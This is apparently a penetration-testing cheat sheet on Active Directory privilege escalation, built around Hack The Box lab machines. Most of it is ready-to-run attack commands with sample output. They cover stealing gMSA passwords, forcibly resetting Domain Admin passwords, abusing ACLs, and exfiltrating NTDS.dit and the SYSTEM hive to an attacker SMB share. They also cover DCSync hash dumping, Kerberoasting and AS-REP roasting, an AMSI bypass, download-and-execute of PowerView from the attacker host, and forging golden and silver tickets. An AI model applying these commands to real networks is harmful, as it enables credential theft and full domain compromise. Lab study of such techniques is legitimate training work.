

# AD Exploitation

## Exploitation/Privilege Escalation

[https://www.youtube.com/watch?v=QfyZQDyeXjQ](https://www.youtube.com/watch?v=QfyZQDyeXjQ)

[https://www.youtube.com/watch?v=pZSyGRjHNO4](https://www.youtube.com/watch?v=pZSyGRjHNO4)

[https://www.youtube.com/watch?v=VLA7x81i5Pw](https://www.youtube.com/watch?v=VLA7x81i5Pw)

[https://www.youtube.com/watch?v=xH5T9-m9QXw](https://www.youtube.com/watch?v=xH5T9-m9QXw)

[https://www.youtube.com/watch?v=o98\_eRt777Y](https://www.youtube.com/watch?v=o98\_eRt777Y)

[https://www.youtube.com/watch?v=\_nJ-b1UFDVM](https://www.youtube.com/watch?v=\_nJ-b1UFDVM)

[https://www.youtube.com/watch?v=xowytiyooBk](https://www.youtube.com/watch?v=xowytiyooBk)

### ReadGMSAPassword

*   This allows an attacker to use the password of a Group Managed Service Account which usually has elevated privileges.

    * HTB Example: _**Search**_

    How-To:

    ```python
    $gmsa Get-ADServiceAccount -Identity bir-adfs-gmsa -Properties 'msds-managedpassword'

    $gmsa

    $mp = $gmsa.'msds-managedpassword'

    $mp

    $mp1 = ConvertFrom-ADManagedPasswordBlob $mp

    $mp1

    $passwd = $mp1.'currentpassword'

    $passwd

    $user 'BIR-ADFS-GMSA$'

    $secpass = ConvertTo-SecureString $passwd -AsPlainText -Force

    $cred = new-object system.management.automation.pscredential $user,$secpass
    ```

Example:

<figure><figcaption><p>ReadGMSAPassword in BloodHound</p></figcaption></figure>

### GenericWrite/GenericAll/AllExtendedRights

*   Allows an attacker to modify the object in question. In this example, we change the password of a Domain Admin. GenericWrite allows the modification of certain things.

    * HTB Example: _**Search**_

    How-To:

    ```python
    Invoke-Command -computername 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity tristan.davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'Password1234!' -force)} -Credential $cred

    #kali:

    wmiexec.py 'search/tristan.davies:Password1234!@search.htb'
    ```

    * Why would you invoke a command on localhost? This is because I am using another user’s credentials.
    * Note: Invoke-Command executes a command on another host.
    * With this, we can obtain domain admin access.

### ForceChangePassword

* GenericWrite
*   Allows an attacker to change the password of the object in question.

    * HTB Example: _**Object**_
      * Requires: PowerView.ps1
      * Be sure to upload PowerView.ps1

    How-To:

    ```python
    # On PowerShell or Windows shell:

    . .\\PowerView.ps1

    $newpass = ConvertTo-SecureString 'Password1234!' -AsPlainText -Force

    Set-DomainUserPassword -Identity smith -AccountPassword $newpass

    # On Kali:

    evil-winrm <IP> -u smith -p Password1234!
    ```

    ForceChangePassword

Example:

<figure><figcaption></figcaption></figure>

### PowerView

*   Allows for additional manipulation of AD. Many of the commands presented by BloodHound require PowerView.

    * HTB Example: _**Object**_

    How-To:

    ```python
    . .\\PowerView.ps1

    echo "ls \\users\\user\\desktop > \\programdata\\out" > cmd.ps1

    Set-DomainObject -Identity maria -SET @{scriptpath="C:\\\\programdata\\\\cmd.ps1"}

    ls

    type out
    ```

### WriteOwner

*   Allows an attacker to set the owner of the object and make themselves a member of the object.

    * HTB Example: _**Object**_

    How-To:

    ```python
    . .\\PowerView.ps1

    Invoke-ACLScanner -ResolveGUIDs | ? {$_.identityreferencename -like 'maria'}

    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria' # Make Maria the owner

    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights all # Grant Maria all rights

    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'

    net group "Domain Admins" /domain

    # You should see maria. 

    # Log out and log back in.
    ```

### SeBackupPrivilege & SeRestorePrivilege

* Allows the attacker access to any file on the machine given they take the appropriate steps.
* In this example, we can be seen taking the NTDS.dit and System.hive file.
* This is done with a tool called robocopy.
  *   This grants you access to files even if you do not have permissions.

      * HTB Example: _**Blackfield**_

      How-To:

      ```python
      # How to enumerate for this:

      whoami /priv
      SeBackupPrivilege Enabled
      SeRestorePrivilege Enabled

      robocopy /b c:\\users\\administrator\\desktop\\ c:\\

      gci c:\\
      ```

      * In other words, **if you EVER SEE SeBackupPrivilege, you AUTOMATICALLY have access to root.txt as soon as you run this command!**

### NTDS.dit and System.hive

* Once an attacker has access to these files, an attacker can dump hashes from the DC using DCSync.
  * HTB Example: _**Blackfield**_
  *   Initiate Backup

      ```
      echo "Y" | wbadmin start backup -backuptarget:\\\\<tun0_IP>\\smb -include:c:\\windows\\ntds

      The backup operation successfully completed.
      ```
  *   Obtain wbadmin version:

      ```
      wbadmin get versions
      wbadmin x.x - Backup command-line tool

      # Pay attention to the version of wbadmin and the second date of version identifier as you will need this for the next command.
      ```
  *   Obtain NTDS.dit:

      ```
      echo "Y" | wbadmin start recovery -version:07/16/2022-07:43 -itemtype:file -items:c:\\windows\\ntds\\ntds.dit -recoverytarget:c:\\ -notrestoreacl

      Do you want to continue?
      [Y] Yes [N] No Y 
      ```
  *   Export system.hive and transfer to our attacker machine:

      ```
      reg save HKLM\\SYSTEM c:\\system.hive

      cp ntds.dit \\\\<tun0_IP>\\smb\\NTDS.dit

      cp system.hive \\\\<tun0_IP>\\smb\\system.hive

      exit
      ```
  *   Navigate to your SMB drive on your Kali and run [secrets.dump.py](http://secrets.dump.py) against NTDS.dit and System.hive:

      ```
      secretsdump.py -ntds NTDS.dit -system system.hive LOCAL
      ```

      * You will then have an entire dump of hashes obtained from the entire Active Directory.
  *   Utilize [wmiexec.py](http://wmiexec.py) to pass the hash and authenticate as that user:

      ```
      wmiexec.py -hashes :<hash_here> administrator@<IP_HERE>

      C:\\>whoami
      blackfield\\administrator
      ```

      * For example, grab the administrator hash for domain access. Grab the second half of the hash only, not the entire thing.

### Account Operators/WriteDACL —> DCSync Attack

* In the account operators group, an attacker can create users and place them in non-protected groups.
* Placing a new user in a group with WriteDACL, enables an attacker to modify the new user’s DACL.
* In this example, we can give our new user DCSync rights.
* DACL- Discretionary Access Control List
*   This commonly happens due to “scope creep”.

    * HTB Example: _**Forest**_

    Step 1:

    ```
    # Kali

    evil-winrm -i <IP> -u svc-alfresco -p s3rvice

    # Once authenticated (Windows)

    net user jacob Password1234! /add /domain

    net group "Exchange Windows Permissions" jacob /add

    net localgroup "Remote Management Users" jacob /add

    Bypass-4MSI
    [+] Success!
    ```

    Step 2:

    ```python
    # On Kali

    locate PowerView.ps1

    cd into directory w/ PowerView.ps1

    python3 -m http.server

    # On Windows

    iex(new-object net.webclient).downloadstring('http://<kali_ip>:8000/PowerView.ps1')

    $pass = convertto-securestring 'Password1234!' -asplain -force

    $cred = new-object system.management.automation.pscredential('htb\\jacob', $pass)

    Add-ObjectACL -PrincipalIdentity jacob -Credential $cred -Rights DCSync

    exit
    ```

    Step 3:

    ```python
    # On Kali

    secretsdump.py htb\\jacob@<IP>

    Password: Password1234!

    # You will obtain all of the hashes. Grab the administrator hash (the second half).

    psexec.py administrator@<IP> -hashes <Hash_Here>

    C:\\Windows\\system32> 
    ```

### GetChangesAll/Replication (DCSync)

* This is one of the coolest escalation vectors in my opinion.
* DCSync allows an attacker to impersonate a failover Domain Controller.
* This then allows all user hashes to be shared.
* Look for GetChanges that point towards the domain.

Example:

<figure><figcaption><p>GetChanges in BloodHound</p></figcaption></figure>

* Also be sure to look in “Dangerous Rights” within BloodHound.
* HTB Example: _**Forest/Sizzle**_

```python
secretsdump.py egotistical-bank/svc_loanmgr@<IP> -just-dc-user Administrator

# Obtain Administrator hash

psexec.py egotistical-bank.local/administrator<IP> -hashes <admin_hash_here>

C:\\Windows\\system32> whoami

nt authority\\system
```

## Kerberoasting vs. AS-REPRoasting

*   <mark style="color:red;">Kerberoasting</mark> means that <mark style="background-color:yellow;">a user has a Service Principal Name (SPN) associated with it</mark>. We can then theoretically request the SPN from the DC to send us the hash for us to crack. This can be accomplished with the script below.

    * Check if the user has a SPN with the following command:

    ```python
    Get-UserSPNs.py -request -dc-ip <IP> search.htb/hope.sharp:IsolationIsKey

    # The SPN will appear as RESEARCH/web_svc.search.htb:60001
    # You will also get a hash, save it and crack with John

    john --wordlist=/usr/share/wordlists/rockyou.txt hash
    ```
*   <mark style="color:red;">AS-REPRoasting</mark> means that <mark style="background-color:yellow;">Kerberos Pre-Authentication is disabled on that user</mark>. You will also receive a TGT hash that can then be cracked. This can be accomplished with the script below.

    * Check with the following command:

    ```python
    Get-NPUsers.py LICORDEBELLOTA.HTB/Kaorz -dc-ip <IP> -no-pass

    # You will get a TGT hash. Save the hash in a file and crack the hash

    hashcat -m 18200 hash rockyou.txt
    ```


## DCSync Attack with MimiKatz → Kerberos Service Account → Golden Tickets

* An extremely powerful attack.

```python
.\\mimikatz.exe

mimikatz # lsadump::dcsync /domain:htb.local /user:krbtgt

Credentials:
Hash NTLM: <Hash_Here>
```

## Kerberos Cheatsheet

### Bruteforcing

Kerbrute.py:

```python
kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

Rubeus:

```python
# List of users
.\\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# Check passwords for all users in current domain
.\\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

### AS-REPRoasting

Impacket (GetNPUsers.py):

```python
# check ASREPRoast for all domain users (credentials required)
GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

Rubeus:

```python
# check ASREPRoast for all users in current domain
.\\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

Cracking with dictionary attack:

```python
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Kerberoasting

Impacket ([GetUserSPNs.py](http://getuserspns.py)):

```python
GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
```

Rubeus:

```python
.\\Rubeus.exe kerberoast /outfile:<output_TGSs_file>
```

Cracking with dictionary attack:

```python
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

### Overpass The Hash/Pass The Key (PTK-Attack)

Impacket:

```python
# Request the TGT with hash
getTGT.py <domain_name>/<username> -hashes [lm_hash]:<ntlm_hash>

# Request the TGT with aesKey
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Rubeus:

```python
# Request/Inject ticket
.\\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt
```

PsExec:

```python
# Execute a command remotely
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Pass The Ticket (PTT-Attack)

* You can do this two ways. One from Linux and the other from Windows.

Grabbing ticket from Linux:

```python
grep default_ccache_naame /etc/krb5.conf
```

Grabbing ticket from Windows:

Mimikatz:

```python
mimikatz # sekurlsa::tickets /export
```

Rubeus:

```python
.\\Rubeus dump

# After dump with Rubeus tickets in base64, to write the in a file
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

Using the ticket in Windows/Linux

Linux:

```python
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Windows:

Inject ticket via Mimikatz:

```python
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket via Rubeus:

```python
.\\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a remote command via PsExec:

```python
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Silver Ticket

Impacket:

```python
# To generate the TGS with NTLM
ticketer.py -nthash <ntlm_hash> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# To generate the TGS with AES key
ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name> -spn <service_spn>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Mimikatz:

```python
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Rubeus:

```python
.\\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Executing a remote command with PsExec:

```python
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Golden Ticket

Impacket:

```python
# To generate the TGT with NTLM
ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

Mimikatz:

```python
# To generate the TGT with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<krbtgt_ntlm_hash> /user:<user_name>

# To generate the TGT with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name>

# To generate the TGT with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name>

# Inject TGT with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Rubeus:

```python
.\\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Executing a remote command with PsExec:

```python
.\\PsExec.exe -accepteula \\\\<remote_hostname> cmd
```

### Resetting Domain User Password:

* If you own the owner of another AD user object (WriteOwner, WriteDACL, GenericWrite, Owner, etc), you can reset the password:

```python
IEX(New-Object Net.WebClient).downloadString('<http://10.10.10.123/ps/PowerView.ps1>')

$user = 'DOMAIN\\owner_acct'; 
$pass= ConvertTo-SecureString 'Password123!' -AsPlainText -Force; 
$creds = New-Object System.Management.Automation.PSCredential $user, $pass;

$newpass = ConvertTo-SecureString 'burmatw@sh3r3' -AsPlainText -Force; 

Set-DomainUserPassword -Identity 'DOMAIN\\vuln_user' -AccountPassword $newpass -Credential $creds;
```

* You can even set yourself as the owner:

```python
IEX(New-Object Net.WebClient).downloadString('<http://10.10.10.123/ps/PowerView.ps1>')
Set-DomainObjectOwner -Identity it_admin -OwnerIdentity burmat
Add-DomainObjectAcl -TargetIdentity it_admin -PrincipalIdentity burmat
$newpass = ConvertTo-SecureString -String 'burmat123$' -AsPlainText -Force
Set-DomainUserPassword -Identity it_admin -AccountPassword $newpass
```
